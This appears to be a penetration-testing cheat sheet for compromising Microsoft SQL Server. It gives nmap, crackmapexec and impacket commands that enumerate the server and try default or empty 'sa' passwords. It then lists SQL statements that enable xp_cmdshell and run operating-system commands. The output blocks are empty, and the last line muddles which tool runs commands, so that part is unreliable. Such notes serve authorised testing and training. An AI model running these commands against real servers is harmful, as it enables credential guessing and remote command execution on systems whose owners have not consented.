 
**Enumeration**

Enumerate with `nmap nse` to find additional information.

```bash
sudo nmap -n -Pn -sT -sU -T4 -p T:1433,1434,5022,27900,U:1434 --script "ms-sql-info,ms-sql-empty-password,ms-sql-ntlm-info,ms-sql-hasdbaccess" --script-args mssql.username=sa,mssql.password=sa,mssql.instance-name=MSSQLSERVER -sV -oA recon/nmap-${IP}-tcp-mssql ${IP}
```

Replace password with `blank` or other password, and replace instance name as `SQLEXPRESS` or other db instances, if required.

```text

```


```bash
crackmapexec mssql ${IP}
```

```text

```


**Access**

If credentials are known,

```bash
USER="" PASS="" ; impacket-mssqlclient ${USER}:${PASS}@${IP} -windows-auth
```

```text

```

Commands to enumerate database.

```text
select @@version;
select user_name();

enable_xp_cmdshell

sp_configure 'Show Advanced Options', 1
reconfigure
sp_configure 'xp_cmdshell', 1
reconfigure

select name, convert(int, isnull(value, value_in_use)) as isconfigured from sys.configurations where name = 'xp_cmdshell';

exec xp_cmdshell 'whoami'
```


If `xp_cmdshell` is enabled, `nmap` can be used to run system commands.
